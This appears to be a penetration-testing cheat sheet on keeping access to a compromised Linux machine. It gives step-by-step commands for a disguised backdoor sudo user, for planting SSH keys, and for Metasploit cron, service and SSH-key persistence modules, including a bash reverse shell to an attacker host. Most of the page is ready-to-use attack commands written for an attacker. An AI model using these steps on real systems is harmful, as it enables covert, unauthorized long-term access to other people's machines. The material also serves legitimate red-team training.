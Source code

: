 Persistence refers to maintaining access to a compromised system even after a reboot, user logoff, or other interruptions.


## Creating a Backdoor User

A common persistence technique is creating a backdoor user with elevated privileges or root access. If SSH is enabled, the attacker can create a user that looks like a service account or a legitimate system user.

1. **Create a Backdoor User**
```bash
sudo useradd -m -s /bin/bash <username>
```

2. **Set a password**
```bash
sudo passwd <username>
```

3. **Change User UID (Optional)**
```bash
sudo usermod -u <target_uid> <username>
```

4. **Add the User to the Sudoers File**
```bash
sudo usermod -aG sudo <username>
```

## Using SSH Keys for Persistence
SSH keys provide a more secure and stealthy method of maintaining access to a Linux system. By copying your public SSH key to the target system, you can log in without needing to know the password.

1. **Generate SSH Key Pair**
```bash
ssh-keygen -t rsa -b 2048
```

2. **Copy the Public Key to the Target**
```bash
ssh-copy-id <username>@<target_ip>
```

3. **Verify Access**
```bash
ssh <username>@<target_ip>
```


## Metasploit

Metasploit provides several modules to establish persistence on Linux systems. Some of the most commonly used modules are `cron_persistence`, `service_persistence`, and `sshkey_persistence`.

#### cron_persistence
This module sets up a cron job that runs a specified payload at regular intervals, even if the system is rebooted.

```bash
use post/linux/manage/cron_persistence
set session <session_id>
set cmd "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1"
run
```

#### service_persistence
This module adds a new system service that starts automatically when the system boots. The service runs a payload, providing persistent access.

```bash
use post/linux/manage/service_persistence
set session <session_id>
set service_name "malicious_service"
set payload linux/x86/shell_reverse_tcp
set lhost <attacker_ip>
set lport <attacker_port>
run
```

#### sshkey_persistence
This module adds an SSH key to the target system, allowing the attacker to log in without a password.

```bash
use post/linux/manage/sshkey_persistence
set session <session_id>
set sshkey <path_to_public_key>
run
```